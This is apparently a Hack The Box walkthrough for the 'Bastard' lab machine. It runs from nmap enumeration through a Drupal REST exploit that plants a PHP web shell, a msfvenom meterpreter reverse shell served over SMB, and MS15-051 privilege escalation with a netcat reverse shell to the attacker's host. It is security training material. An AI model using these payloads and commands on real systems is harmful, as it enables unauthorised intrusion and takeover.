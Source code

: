 # Bastard - Hack The Box Walkthrough

**Target IP**: `10.10.10.9`  
**Hostname**: `bastard.htb`  

---

## Initial Setup

### Preparing the Environment

1. Store the target IP for reuse:
   ```bash
   echo 10.10.10.9 > target
   ```

2. Add the target to your `/etc/hosts`:
   ```
   10.10.10.9   bastard.htb
   ```

---

## Enumeration

### Full Port Scan

Conducted a full TCP port scan to identify open services:

```bash
nmap -p- -v -iL target -oN nmap/full_tcp_scan.txt
```

Identified open ports:
- `80/tcp` – HTTP (Microsoft IIS)
- `135/tcp` – MSRPC
- `49154/tcp` – MSRPC

Then ran a service/version scan on those ports:

```bash
nmap -p80,135,49154 -A -v -iL target -oN nmap/target_ports.txt
```

**Nmap Results:**
```
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
|_http-generator: Drupal 7 (http://drupal.org)
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
```

---

## Web Enumeration (Port 80)

The site is running **Drupal 7**, confirmed via both Nmap and manually checking:

```bash
curl -s http://bastard.htb/CHANGELOG.txt
```

Also explored:
- [CHANGELOG.txt](http://bastard.htb/CHANGELOG.txt)
- [README.txt](http://bastard.htb/README.txt)

Used `searchsploit` to look for known Drupal 7 vulnerabilities:

```bash
searchsploit Drupal 7
```

Selected and copied the following exploit locally:

```bash
searchsploit -m php/webapps/41564.php
```

---

## Exploiting Drupal (Drupalgeddon 2 - Exploit 41564)

**Payload**: `php/webapps/41564.php` (Drupal REST RCE)

### Configuration

Edit the script to set the correct target details:

```php
$url = 'http://bastard.htb';
$endpoint_path = '/rest'; // discovered via ffuf
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'spread.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

### Finding the REST Endpoint

Used `ffuf` to brute-force directories and discovered the `/rest` endpoint:

```bash
ffuf -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u "http://bastard.htb/FUZZ"
```

Verified using `curl`:

```bash
curl http://bastard.htb/rest
```

### Execute the Exploit

Ensure PHP has cURL support:

```bash
sudo apt install php-curl
```

Then run the exploit:

```bash
php 41564.php
```

A web shell is uploaded as `spread.php`. Verify it works:

```bash
curl "http://bastard.htb/spread.php?cmd=whoami"
```

---

## Gaining a Reverse Shell

### Generate Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your-IP> LPORT=8887 -f exe -o shell.exe
```

### Host Payload

Serve it via SMB:

```bash
impacket-smbserver -ip <Your-IP> shares .
```

### Start Meterpreter Handler

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your-IP>
set LPORT 8887
run
```

### Trigger Execution

```bash
curl "http://bastard.htb/spread.php" \
--data-urlencode 'cmd=cmd /c "\\<Your-IP>\shares\shell.exe"'
```

This spawns a Meterpreter session.

---

## Privilege Escalation

### System Information

Gathered with `systeminfo`:

```
OS: Microsoft Windows Server 2008 R2 Datacenter (Build 7600)
Patch Status: No Hotfixes Installed
...
```

Since there are no hotfixes, the target is likely vulnerable to **MS15-051** (Kernel Priv Esc).

### Exploitation: MS15-051

Exploit used: [MS15-051 GitHub Repo](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

1. Download and extract exploit files.
2. Host the exploit using SMB:

   ```bash
   impacket-smbserver -ip <Your-IP> share .
   ```

3. From the target, test it:

   ```cmd
   \\<Your-IP>\share\ms15-051x64.exe "whoami /all"
   ```

4. Upload `nc.exe` to SMB and spawn a shell:

   Start listener:
   ```bash
   nc -lvnp 443
   ```

   Then from the target:
   ```cmd
   \\<Your-IP>\share\ms15-051x64.exe "\\<Your-IP>\share\nc.exe -e cmd.exe <Your-IP> 443"
   ```

You should now have **SYSTEM** access.

---

## Notes

- Drupalgeddon 2 can be finicky—make sure you find the right endpoint.
- Kernel exploits like MS15-051 are highly reliable on unpatched Win 2008 systems.
- Always clean up after your session if you're working on a shared instance.

---
